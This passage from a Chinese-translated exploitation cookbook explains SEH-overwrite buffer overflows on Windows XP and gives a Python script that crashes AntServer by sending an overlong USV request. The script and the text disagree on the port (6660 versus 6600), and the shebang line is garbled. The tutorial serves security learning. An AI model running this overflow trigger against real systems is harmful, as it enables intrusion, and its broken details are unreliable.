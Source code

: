 资料来源：https://www.corelan.be/wp-content/uploads/2009/07/image_thumb45.png

当异常发生时，SEH 链将根据其类型来救援并处理异常。

因此，当出现非法指令时，应用程序有机会处理异常。如果应用程序中没有定义异常处理程序，我们将看到 Windows 显示的错误：类似于向 Microsoft 发送报告。

为了成功利用 SEH 处理程序的程序，我们首先尝试用缓冲区填充堆栈，然后尝试覆盖存储第一个 SEH 记录链的内存地址。然而，这还不够；我们还需要生成一个错误，它将实际触发 SEH 处理程序，然后我们将能够完全控制程序的执行流。一个简单的方法是一直填充堆栈，这将创建一个要处理的异常，因为我们已经控制了第一条 SEH 记录，所以我们将能够利用它

# 怎么做。。。

在本食谱中，您将了解如何做到这一点：

1.  让我们下载一个名为 AntServer 的程序。它有很多可用的公共漏洞，我们将尝试为它构建自己的漏洞。
2.  我们将在上一个配方中使用的 Windows XP SP2 机器上安装它。
3.  AntServer 存在一个漏洞，可通过向在端口`6600`上运行的 AntServer 发送长 USV 请求来触发该漏洞：

![](img/ea4fd8f1-96bc-4169-b405-16cdfaa4739f.png)

4.  让我们通过打开软件并导航到服务器来运行 AntServer |运行服务控制…：

![](img/110334f7-16d2-4b7d-9747-fe7014451572.png)

5.  现在，让我们编写一个简单的 Python 脚本，它将在端口`6600`上向该服务器发送一个大请求：

```
        #!/usr/bin/pythonimport socket
        import socket
        address="192.168.110.6"
        port=6660    
        buffer = "USV " + "\x41" * 2500 + "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((address, port))
        sock.send(buffer)
        sock.close()
```
